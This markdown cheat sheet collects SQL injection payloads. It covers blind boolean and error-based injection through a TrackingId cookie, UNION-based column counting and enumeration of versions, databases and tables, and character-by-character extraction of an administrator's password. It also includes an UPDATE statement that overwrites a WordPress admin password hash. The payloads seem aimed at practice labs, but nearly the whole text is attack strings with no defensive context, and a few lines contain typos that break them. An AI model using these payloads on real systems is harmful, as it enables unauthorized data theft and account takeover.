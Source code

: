 
### Blind SQLi / Manual Bruteforce

`select substring(user() , 1, 1) = 'r';`  

`' or substr (user(), 1, 1)= 'a`  

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

`admin123' UNION SELECT 1,2,3 where database() like 's%';--`

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--`

`admin123' UNION SELECT 1,2,3 from users where username like 'a%`

#### Blind SQL in a cookie

`TrackingId=xyz'||(SELECT '' FROM dual)||'` **_test on cookie header TrackingId is a cookie_**

`'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM dual)||'`

`'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator') ||'`

`'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator' and lenght(password)>1) ||'`

`'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator' and substr(password,1,1)='a') ||'`

`' AND CAST((SELECT 1) AS int)--`
`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
`' AND 1=CAST((SELECT version()) AS int)--`

**_Limit output of rows = rownum=1  ---same as Limit 1 for mysql_**
**_This is syntax is for oracle - Dual is a default table_**

- updating entry `UPDATE wp_users SET user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1`

What to do when there is a confirmed injection point?

- Determine how many columns using:

`' UNION SELECT null;-- -` **_or by using ORDER BY #-- -_**

`' UNION SELECT 'asd', 'asd';-- -` **_asd should appear somewhere_**

**_NOTE Check if it accepts string or integer_**

- After enumerating the number of columns continue with Union injections

### Querying Version, db, Table_name, user()

`1 union select 1, @@version, 3, 4`

`1 union select 1, database(), 3, 4`

`1 union select 1, table_name, 3, 4 fomr information_schema.tables`
